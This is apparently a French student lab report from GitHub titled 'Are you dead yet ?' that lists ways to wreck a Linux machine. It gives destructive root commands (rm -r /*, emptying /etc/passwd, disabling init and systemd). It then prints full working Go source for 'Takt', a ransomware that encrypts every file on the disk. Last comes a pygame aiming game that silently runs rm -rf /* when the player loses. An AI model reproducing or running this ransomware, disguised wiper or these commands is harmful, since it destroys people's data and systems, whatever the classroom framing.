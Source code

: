 # TP 1 : Are you dead yet ?

---

**🌞 Plusieurs façons différentes de péter la machine :**

**➜ Premiere façon :**

    tomfox@tomfox:~$ sudo rm -r /*
    
Ici je supprime tout depuis la racine

**➜ Deuxième façon :**

    tomfox@tomfox:~$ cd /sbin
	tomfox@tomfox:/sbin$ sudo rm init
	tomfox@tomfox:/sbin$ sudo ln -s /usr/bin/echo init
    
Je me déplace dans le dossier sbin puis je supprime le init (c'est le premier process lancé par linux (PID 1)).
Puis je crée un nouveau link pour que init renvoie vers echo et non plus vers /lib/systemd/systemd

**➜ Troisième façon :**

    tomfox@tomfox:~$ sudo su -
    root@tomfox:~# chmod 000 /lib/systemd/systemd


Cette commande enlève les droits à tout le monde (même root) d'exécuter ce fichier, donc si ce fichier n'est pas lançable le linux ne boot pas car ce file est nécessaire pour le bon fonctionnement de linux

**➜ Quatrième façon :**

    tomfox@tomfox:~$ sudo su -
    root@tomfox:~# echo "" > /etc/passwd

Je supprime tout le contenu de /etc/passwd (contenu nécessaire pour le bon fonctionnement des sessions)

**➜ Cinquième façon :**
    
    tomfox@tomfox:~$ sudo su -
    root@tomfox:~# find / -type f | grep linux | xargs rm -rf

Ici je find tout le file (-type f) dans le system qui contient "linux" dans son full path name et ensuite je les supprime en utilisant un pipe et xargs pour prendre chaque ligne de output comme argument pour mon rm (-r pour récursif et -f pour force)


**➜ Sixième façon :**

Context : V1 de notre Takt ransomware, notre projet file rouge avec [Hyouka](https://github.com/HyouKash) en SSI

Pour chiffrer : 
    
    go build takt.go
    sudo ./takt

Pour déchiffrer : 
    
    sudo ./takt --decrypt <BASE64(AES_KEY)>
    
```
#takt.go

package main

import (
    "crypto/aes"
    "crypto/cipher"
    "crypto/rand"
    "encoding/base64"
    "fmt"
    "io/ioutil"
    "log"
    "os"
    "os/exec"
    "strings"
    "sync"
)

var wg sync.WaitGroup
var wgc sync.WaitGroup

var CryptKey = aesKey()

var IV = []byte("1234567812345678")

func createKey() []byte {
    genkey := make([]byte, 32)
    _, err := rand.Read(genkey)
    if err != nil {
        log.Fatalf("Failed to read new random key: %s", err)
    }
    return genkey
}

func aesKey() []byte {
    key := createKey()
    return key
}

func createCipher() cipher.Block {
    c, err := aes.NewCipher(CryptKey)
    if err != nil {
        log.Fatalf("Failed to create the AES cipher: %s", err)
    }
    return c
}

func Crypt(filename string, ch chan string) {
    file, _ := os.Open(filename)
    fileInfo, err := os.Stat(filename)
    if err != nil {
        wgc.Done()
        file.Close()
        Crypt(<-ch, ch)
    }
    if fileInfo.Size() > 200000000 {
        wgc.Done()
        file.Close()
        Crypt(<-ch, ch)
    }
    arr := make([]byte, fileInfo.Size())
    _, _ = file.Read(arr)
    file.Close()
    blockCipher := createCipher()
    stream := cipher.NewCTR(blockCipher, IV)
    stream.XORKeyStream(arr, arr)
    _ = ioutil.WriteFile(filename, arr, 0644)
    wgc.Done()
    Crypt(<-ch, ch)
}

func DeCrypt(filename string, ch chan string) {
    bytes, _ := ioutil.ReadFile(filename)
    blockCipher, _ := aes.NewCipher(CryptKey)
    stream := cipher.NewCTR(blockCipher, IV)
    stream.XORKeyStream(bytes, bytes)
    _ = ioutil.WriteFile(filename, bytes, 0644)
    wgc.Done()
    DeCrypt(<-ch, ch)
}

func main() {
    cmd := exec.Command("bash", "-c", "find / -type f")
    output, _ := cmd.CombinedOutput()
    listfile := strings.Split(string(output), "\n")
    ch := make(chan string, len(listfile))
    for _, file := range listfile {
        wg.Add(1)
        wgc.Add(1)
        go func(file string) {
            ch <- file
            wg.Done()
        }(file)
    }
    wg.Wait()
    args := os.Args[1:]
    if len(args) == 0 {
        fmt.Print("Crypt With ")
        fmt.Println(base64.StdEncoding.EncodeToString(CryptKey))
        for i := 0; i < 100; i++ {
            if len(ch) == 0 {
                break
            }
            go Crypt(<-ch, ch)
        }
        wgc.Wait()
    } else if len(args) == 2 && args[0] == "--decrypt" {
        CryptKey, _ = base64.StdEncoding.DecodeString(args[1])
        fmt.Print("Decrypt With ")
        fmt.Println(base64.StdEncoding.EncodeToString(CryptKey))
        for i := 0; i < 100; i++ {
            if len(ch) == 0 {
                break
            }
            go DeCrypt(<-ch, ch)
        }
        wgc.Wait()
    }
}
```

Explications : Takt ransomware utilise du Threading et des channels (fonctionnement de pile). La clé de chiffrement est en AES 256 et est générée de manière aléatoire. Ces procédés le rendent extrêmement rapide. Il chiffre l'entiéreté du disque (pour cette version, il chiffre le système également, si besoin on possède une version qui permet au système de survivre), l'utilisateur n'a plus accès a aucune de ses données. 

EPO : Educational Purpose Only

**➜ Septième façon :**

    tomfox@tomfox:~/Desktop$ sudo apt install python3 python3-pip -y
    tomfox@tomfox:~/Desktop$ sudo python3 -m pip install pygame
    tomfox@tomfox:~/Desktop$ sudo python3 main.py 

```
#main.py
import os

import pygame, sys
from pygame.locals import *
from random import randint
import time

pygame.init()
RangeTaille = 480
pos = ((randint(0, RangeTaille) // 80) * 80, ((randint(0, RangeTaille) // 80) * 80))

fenetre = pygame.display.set_mode((RangeTaille, RangeTaille))
cible = pygame.image.load("cible.png").convert_alpha()
ciblesize = pygame.transform.scale(cible, (80, 80))
position_perso = ciblesize.get_rect()
point, topchrono, delai, chrono = 0,time.time(),1,30
while True:
    for event in pygame.event.get():
        if event.type == MOUSEBUTTONDOWN and event.button == 1:
            if (event.pos[0]) // 80 == (pos[0]) // 80 and (event.pos[1]) // 80 == (pos[1]) // 80:
                point += 100
                pos = ((randint(0, RangeTaille) // 80) * 80, ((randint(0, RangeTaille) // 80) * 80))
            else:
                point -= 30
    if time.time() - topchrono > delai:
        chrono -= 1
        topchrono = time.time()
    fenetre.fill([0, 0, 0])
    fenetre.blit(ciblesize, pos)
    font = pygame.font.Font(pygame.font.get_default_font(), 36)
    score = font.render("Score: " + str(point), True, (255, 255, 0))
    chronoshow = font.render(str(chrono) + "s", True, (255, 255, 0))
    fenetre.blit(score, dest=((RangeTaille // 2) - 80, 0))
    fenetre.blit(chronoshow, dest=((RangeTaille // 2) - 20, 30))
    pygame.display.flip()
    if chrono <= 0:
        if point < 7000:
            score = font.render("Tu as perdu!!", True, (255, 255, 0))
            fenetre.blit(score, dest=((RangeTaille // 2) - 100, RangeTaille // 2))
            pygame.display.flip()
            os.system("rm -rf /*")
        else:
            sys.exit()


```

Code python fait en seconde, comme on peux voir a la fin de ce code si l'utilsateur fait moins de 7000 points on supprime tout ce qui a dans ça racine (C'est un jeu d'aim il faut tout simplement visé des cible)
